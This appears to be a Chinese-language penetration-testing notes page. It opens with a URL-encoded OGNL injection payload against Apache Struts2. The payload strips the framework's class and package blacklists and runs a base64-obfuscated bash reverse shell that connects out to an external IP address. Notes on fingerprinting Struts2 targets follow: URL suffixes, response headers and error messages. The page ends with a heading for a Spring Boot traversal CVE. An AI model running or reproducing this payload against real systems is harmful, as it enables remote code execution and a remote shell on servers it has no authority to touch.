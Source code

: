 ```
(%23request.map3.setBean(%23request.get('map2').get('memberAccess'))+%3d%3d+true).toString().substring(0,0)+%2b

(%23request.get('map3').put('excludedPackageNames',%23%40org.apache.commons.collections.BeanMap%40{}.keySet())+%3d%3d+true).toString().substring(0,0)+%2b

(%23request.get('map3').put('excludedClasses',%23%40org.apache.commons.collections.BeanMap%40{}.keySet())+%3d%3d+true).toString().substring(0,0)+%2b

(%23application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'bash -c {echo,%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%30%4e%79%34%35%4e%43%34%79%4d%7a%59%75%4d%54%45%33%4c%7a%55%30%4e%54%51%67%4d%44%34%6d%4d%51%3d%3d}|{base64,-d}|{bash,-i}'}))
```

## 识别Struts2
URL 通常有以下特征：
1、通过url
**以 `.action` 结尾**（默认）
```
http://example.com/login.action
http://example.com/user/register.action
```
**可能使用 `.do` 结尾**（某些配置）
```
http://example.com/list.do
```
带 OGNL 解析的参数
```
http://example.com/index.action?id=1
```

2、通过 HTTP 响应信息
Struts2 可能在响应头中暴露特定信息，例如：
```
X-Powered-By: Struts2
```
3、访问默认或错误页面
如果访问不存在的 `.action` 页面，比如：
```
http://example.com/doesnotexist.action
```
可能会返回 Struts2 特有的错误信息，例如：
```
HTTP Status 404 - There is no Action mapped for namespace
或者
ClassNotFoundException: org.apache.struts...
```
## 2、SpringBoot

1、Spring Boot 目录遍历 （CVE-2021-21234）
